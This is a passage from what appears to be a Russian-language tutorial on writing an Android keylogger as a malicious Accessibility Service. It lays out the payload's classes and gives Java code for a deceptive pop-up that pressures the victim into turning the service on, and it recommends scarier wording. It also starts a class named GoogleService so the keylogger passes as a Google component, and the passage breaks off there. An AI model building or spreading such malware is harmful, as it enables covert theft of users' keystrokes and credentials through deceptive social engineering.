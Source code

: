 Это способ самый бесполезный, собственная клавиатура хорошо видна пользователю. Второй способ, это создание Accessibility Service. Такие сервисы, встраиваются в приложения, для людей с ограниченными возможностями. Они имеют доступ ко многим вещам, одна из которых - пользовательский ввод. Именно то что нужно для кейлоггера.

## Создаем payload

Payload будет состоять из трех классов - ```ExecuteAttack```, ```GoogleService```, ```SendService```. Класс ```MainActivity``` просто вспомогательный. И еще у нас будет xml конфиг AccessibilityService.

![](/assets/images/ru/keylogger_note/keylogger_prj.png)

Чтобы наш Accessibility Service начал работать, пользователю необходимо включить его в настройках. Мы поможем в этом пользователю, внедрив в приложение всплывающее окно, с текстом *Please enable app in settings! Otherwise it will stop working* (можно использовать и более пугающий текст). И добавим кнопочку, чтобы пользователь по ней кликнул и перешел сразу в настройки. Класс ```ExecuteAttack``` именно это и делает.

![](/assets/images/ru/keylogger_note/alert_window.png)

```java
public static void openSettings(final Context ctx) {
        AlertDialog alertDialog = new AlertDialog.Builder(ctx).create();
        alertDialog.setTitle("Alert");
        alertDialog.setMessage("Please enable app in settings! Otherwise it will stop working");
        alertDialog.setButton(AlertDialog.BUTTON_NEUTRAL, "Settings",
                new DialogInterface.OnClickListener() {
                    public void onClick(DialogInterface dialog, int which) {
                        ctx.startActivity(new Intent("android.settings.ACCESSIBILITY_SETTINGS"));
                    }
                });
        alertDialog.show();
    }
```
```GoogleService``` - основная логика кейллогера. Является AccessibilityService:

```java
public class GoogleService extends AccessibilityService {
```
